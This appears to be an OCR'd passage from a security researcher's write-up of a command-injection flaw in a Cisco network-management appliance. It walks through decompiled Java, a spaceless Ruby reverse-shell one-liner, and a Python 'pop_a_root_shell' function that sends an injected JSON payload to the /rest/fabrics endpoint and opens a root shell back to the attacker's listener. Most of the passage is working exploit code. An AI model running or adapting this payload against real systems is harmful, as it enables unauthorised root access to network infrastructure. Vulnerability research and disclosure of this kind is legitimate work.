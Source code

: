 ```java
/*  207 */         Runtime.getRuntime().exec("rm -rf " + helpScriptFileName);
```

<p markdown="1" class="cn">Now when the `com.cisco.dcbu.vinci.dhcp.handler.DhcpAutoconfigImpl.getFabricDhcpConfigFileName` method is called on line *[190]*, we can return an injected string into `fabricDhcpFileName`. **This injected string must not contain spaces in order to survive previous checks**.</p>

<p markdown="1" class="cn">At line *[196]* we need to survive this call to `DhcpAutoconfigImpl.updatePrimarySubent`, so to ensure that I set the `primarySubnet`, `primaryDns` and `secondaryDns` variables to `127.0.0.1` (all valid ipv4 addresses).</p>

<p markdown="1" class="cn">Then at line *[204]* the code uses our injected `fabricDhcpFileName` when dynamically creating a shell script and then later at line *[206]* it is executed.</p>

<p markdown="1" class="cn">To exploit this, I used ruby with [bash brace expansion](https://www.gnu.org/software/bash/manual/html_node/Brace-Expansion.html) since I was not able to have spaces. Ruby is installed by default on the appliance and allowed me to craft a reverse shell in code that had no spaces.</p>

```ruby
c=TCPSocket.new("127.0.0.1","1337");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print(io.read)}end
```

<p markdown="1" class="cn">Below is the `pop_a_root_shell` method from my exploit that shows the layered entity bean that I crafted in json.</p>

```python
def pop_a_root_shell(t, ls, lp):
    """ get dat shell! """
    handlerthr = Thread(target=handler, args=(lp,))
    handlerthr.start()
    uri = "https://%s/rest/fabrics" % t
    cmdi  = "%s\";'`{ruby,-rsocket,-e'c=TCPSocket.new(\"%s\",\"%d\");" % (random_string(), ls, lp)
    cmdi += "while(cmd=c.gets);IO.popen(cmd,\"r\"){|io|c.print(io.read)}end'}`'\""
    j = { 
        "name" : cmdi,
        "generalSetting" : {
            "asn" : "1337",
            "provisionOption" : "Manual"
        }, 
        "provisionSetting" : {
            "dhcpSetting": {
                "primarySubnet" : "127.0.0.1",
                "primaryDNS" : "127.0.0.1",
                "secondaryDNS" : "127.0.0.1"
            },
            "ldapSetting" : {
                "server" : "127.0.0.1"
            },
            "amqpSetting" : {
                "server" : "127.0.0.1:1337"
            }
        }
    }
    c = { "resttoken": resttoken }
    r = requests.post(uri, json=j, cookies=c, verify=False)
    if r.status_code == 200 and ls in r.text:
        return True
    return False
```
